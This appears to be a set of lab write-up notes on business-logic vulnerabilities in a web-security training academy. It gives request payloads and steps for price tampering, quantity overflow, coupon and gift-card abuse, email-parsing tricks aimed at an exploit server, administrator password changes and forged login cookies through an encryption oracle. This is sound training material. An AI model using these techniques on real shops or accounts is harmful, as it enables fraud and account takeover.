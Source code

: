 # Business Logic
Business logic vulnerabilities are flaws in the design and implementation of an application that allow an attacker to elicit unintended behavior. This potentially enables attackers to manipulate legitimate functionality to achieve a malicious goal. These flaws are generally the result of failing to anticipate unusual application states that may occur and, consequently, failing to handle them safely.

### LAB: Excessive trust in client-side controls
Change the price in the body of the add to cart request (`POST /cart HTTP/2`):

    productId=1&redir=PRODUCT&quantity=1&price=10

We can now by this product with a much lower price than expected.

### LAB: High-level logic vulnerability
Change the quantity in the body of the add to cart request (`POST /cart HTTP/2`) of another product which cost $99.45:

    productId=17&redir=PRODUCT&quantity=-13

Now add the target product to cart which price is \$1337.00. The total cart price is now $ \$1337.00 - 13 \times \$99.45 = \$44.15$ which is a price we can buy.

### LAB: Low-level logic flaw
Send the add to cart request to Intruder and set the `quantity=99`. 
Insert a null payload and start a sniper attack that loops infinitely until the price go beyond its limit, loops from it min value and finally return to a value near 0. Here we can add some other products manually so that the total price now is a positive number and less than $100.

### LAB: Inconsistent handling of exceptional input
Notice that only accounts with an email address ending in `@dontwannacry.com` is accessible to the admin panel.
Notice that for a very long email (more than 255 characters), the email is then truncated to a 255 characters string.
To bypass this limitation, register with an email so that `...@dontwannacry.com` is exactly 255 characters long and the `exploit-0ab70043030b856983f7a54701f50040.exploit-server.net` after it would be truncated but still the email is sent to this email domain:

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@dontwannacry.com.exploit-0ab70043030b856983f7a54701f50040.exploit-server.net

The final email would be a valid admin email and so access to the admin panel is allowed.

### LAB: Inconsistent security controls
Register a new account using the given email address.
After successful registration, login to that account and change the email to `a@dontwannacry.com` which then makes it able to visit the admin panel and delete user `carlos`.

### LAB: Weak isolation on dual-use endpoint
Login using `wiener:peter` credential. Use the change password function and send that request to repeater.
Modify the body of the `POST /my-account/change-password HTTP/2`:

    csrf=JnkCjHKuDLp3Zuik44F4XpVoc7lJTv3X&username=administrator&new-password-1=123&new-password-2=123

The request is accepted by the server and the admin's password is changed. Login using `administrator:123` to access the admin panel and delete user `carlos`.

### LAB: Insufficient workflow validation
Same as Lab Multi-endpoint race conditions.

### LAB: Authentication bypass via flawed state machine
Turn on the Intercept function for the whole login process.
Forward the `POST /login` request and drop the `GET /role-selector`. Now visit the `/admin` to see the admin panel and delete user `carlos`.

### LAB: Flawed enforcement of business rules
Notice the coupon are tied to session, which means for the same session each coupon is only used once (`NEWCUST5` and `SIGNUP30`).
To bypass this, first use the 2 coupons when logged in and sign out and use them again. Keep doing that process until we reach a price smaller than $100 and place order.

### LAB: Infinite money logic flaw
Notice that we can use the `SIGNPUP30` coupon for every order (even if it was used in the previous order). Which means we can make \$3 profit per gift-card.
Run a macro to add the gift-card to cart $\to$ apply the coupon $\to$ place order $\to$ get the gift-card value $\to$ redeem the gift-card.
Here is how to configure the macro
1. Click `Settings` in the top toolbar. The `Settings` dialog opens.
2. Click `Sessions`. In the `Session handling rules` panel, click `Add`. The `Session handling rule editor` dialog opens.
3. In the dialog, go to the `Scope` tab. `Under URL scope`, select `Include all URLs`.
4. Go back to the `Details` tab. Under `Rule actions`, click `Add` > `Run a macro`. Under `Select macro`, click `Add` again to open the `Macro Recorder`.
Select the following sequence of requests:

        POST /cart
        POST /cart/coupon
        POST /cart/checkout
        GET /cart/order-confirmation?order-confirmed=true
        POST /gift-card
        Then, click OK. The Macro Editor opens.

5. In the list of requests, select `GET /cart/order-confirmation?order-confirmed=true`. Click `Configure item`. In the dialog that opens, click `Add` to create a custom parameter. Name the parameter `gift-card` and highlight the gift card code at the bottom of the response. Click `OK` twice to go back to the `Macro Editor`.
6. Select the `POST /gift-card` request and click `Configure item` again. In the `Parameter handling` section, use the drop-down menus to specify that the `gift-card` parameter should be derived from the prior response (response 4). Click `OK`.
7. In the `Macro Editor`, click `Test macro`. Make sure the process runs smoothly.
8. Send the `GET /my-account` request to `Burp Intruder`. Make sure that `Sniper attack` is selected.
8. In the `Payloads` side panel, under `Payload configuration`, select the payload type `Null payloads`. Choose to generate 412 (= (1337 - 100) / 3) payloads.
9. Click on `Resource pool` to open the `Resource pool` side panel. Add the attack to a resource pool with the `Maximum concurrent requests` set to `1`. Start the attack.
10. When the attack finishes, we will have enough store credit to buy the jacket and solve the lab.

### LAB: Authentication bypass via encryption oracle
First look at the comment function. When we submit a comment with an invalid email format, we got a notification indicating: `Invalid email: pucavv`. Also, a cookie: `notification=ZfhkAWrl9LusCCHYHLe1FLL8PeTyL8klfzidEnbgd9U%3d` is set. Changing the cookie will affect the notification itself $\to$ the `notification` cookie is the encrypted version of `Invalid email: pucavv`. We can make use of this function to encrypt or decrypt as we want.
Try decrypt the cookie `stay-logged-in=YhsWOoH9Wf4sm3FjkWFp47h4tjB5Olq3AOEyfCnYyo4%3d` by sending this request:

    GET /post?postId=4 HTTP/2
    Cookie: notification=YhsWOoH9Wf4sm3FjkWFp47h4tjB5Olq3AOEyfCnYyo4%3d

The decrypted version is: `wiener:1741266589310`. Now to access the admin panel, we need the encrypted version of `administrator:1741266589310`. Try encrypting it by sending this request:

    POST /post/comment HTTP/2

    csrf=TyGj3tNQgvI94Cx9p3Gdv5wfMbK5HWUz&postId=9&comment=ascas&name=ascsac&email=administrator:1741266589310&website=http://aha.com

Instead of getting the encrypted version of `administrator:1741266589310`, the server first append this 23 characters string `Invalid email address: ` before our string and then encrypt it. Try removing the first 23 bytes of the encrypted version (use Decoder: URL decode it $\to$ Base64 decode it, select the first 23 characters $\to$ `Delete selected byte`, Base64 encode it $\to$ URL encode it) and decrypt it using this request:

    GET /post?postId=4 HTTP/2
    Cookie: notification=%31%65%4b%77%39%6b%69%76%49%33%67%57%69%50%54%51%69%6c%71%43%49%6a%71%4b%30%78%76%63%2b%49%76%75%5a%53%31%37%4b%56%59%31%55%6e%72%50%2f%51%44%75%57%5a%54%71%59%39%77%3d

Now we got an error indicating:

    Input length must be multiple of 16 when decrypting with padded cipher

This suggested that the server is using block cipher with block size = 16 bytes. Therefore, we need to construct a string which size is a multiple of 16 and the string after cutting the `Invalid email address: ` part would still has a size that is a multiple of 16:

    'zzzzzzzzzadministrator:1741266589310     '

Now encrypt this string (copy the string inside the quotes), cut the first 32 bytes using the same method as described above, use it as the value for the cookie `stay-logged-in`, remove the `session` cookie to successfully acces the admin account.

### LAB: Bypassing access controls using email address parsing discrepancies
Read [this article](https://portswigger.net/research/splitting-the-email-atom) to understand the concept.
Construct a email like this: 

    =?utf-7?q?attacker&AEA-exploit-0a71000a047150308263379a018f0032.exploit-server.net&ACA-?=@ginandjuice.shop

This tricks the server into believing that this is a valid email address (ending in `@ginandjuice.shop`). On the other hand, the mail server interprets it as `attacker@exploit-0a71000a047150308263379a018f0032.exploit-server.net` (`&AEA-` and `&ACA-` are UTF-7 version of `@` and ` `, the `@ginandjuice.shop` is ignored by the space character ` `). Therefore, the attacker receives the confirmation email and successfully have access to the admin panel.